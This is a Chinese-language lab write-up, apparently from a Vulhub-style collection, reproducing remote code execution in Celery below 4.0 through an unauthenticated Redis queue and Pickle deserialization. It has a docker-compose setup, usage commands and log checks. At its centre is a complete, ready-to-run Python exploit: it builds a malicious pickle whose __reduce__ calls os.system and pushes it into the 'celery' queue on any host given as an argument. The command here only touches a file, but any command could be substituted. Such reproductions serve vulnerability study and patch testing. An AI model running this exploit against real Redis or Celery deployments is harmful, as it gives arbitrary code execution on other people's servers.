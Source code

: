 # Celery <4.0 Redis未授权访问+Pickle反序列化利用

## 漏洞描述

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。

参考文章：

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## 环境搭建

Vulhub执行如下命令启动Celery 3.1.23 + Redis：

```
docker-compose up -d
```

## 漏洞复现

漏洞利用脚本`exploit.py`仅支持在python3下使用

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/celery_success'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))
```

```
pip install redis
python exploit.py [主机IP]
```

![image-20220301104913810](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011049883.png)

查看结果：

```
docker-compose logs celery
```

可以看到如下任务消息报错：

![image-20220301104801643](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011048739.png)

```
docker-compose exec celery ls -l /tmp
```

可以看到成功创建了文件`celery_success`

![image-20220301104827599](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011048652.png)

